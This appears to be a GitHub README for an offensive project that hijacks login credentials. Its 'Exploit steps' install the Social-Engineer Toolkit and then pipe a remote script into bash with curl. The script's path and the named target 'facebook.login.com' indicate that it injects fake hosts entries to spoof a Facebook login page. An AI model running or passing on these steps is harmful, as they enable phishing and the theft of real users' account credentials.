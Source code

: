 # WARNING: This is a development project and is not READY for USING ;)
- BR
------------------------------------------------------------------------------------------
# SSTC-HTTPS-hijack-login-credentials 
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/blob/master/logo/https_image-620x499.jpg)

# Exploit steps:
1. - Installing requirements

https://github.com/trustedsec/social-engineer-toolkit

2. - Preparing packages
For other Linux distro attackers
```
$ git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
$ cd set
$ pip install -r requirements.txt
```
// For kali 
```bash 
setoolkit
```

3. - Creating hosts exploit facebook.login.com
- For Linux
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/master/Attacker/hosts_fake_inject/fakehost.sh | bash
```



